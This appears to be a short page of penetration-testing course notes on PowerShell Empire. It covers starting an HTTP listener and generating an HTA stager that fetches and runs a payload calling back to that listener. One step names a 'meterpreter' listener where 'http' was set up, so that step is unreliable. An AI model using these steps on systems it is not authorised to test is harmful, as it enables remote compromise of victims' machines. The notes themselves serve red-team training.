 # Module 23 (Powershell Empire)

## Powershell Empire&#x20;

### Listener

```
// Empire commands used
?
uselistener http
info
```

<figure><img src="../../.gitbook/assets/image (178).png" alt=""><figcaption></figcaption></figure>

Starting the listener:

```bash
execute
```

### Stager

Stager will download and execute the final payload which will call back to the listener we set up previously - `http`- below shows how to set it up:

```bash
//specify what stager to use
usestager windows/hta

//associate stager with the http listener
set Listener meterpreter

//write stager to the file
set OutFile stage.hta

//create the stager
execute
```

<figure><img src="../../.gitbook/assets/image (180).png" alt=""><figcaption></figcaption></figure>

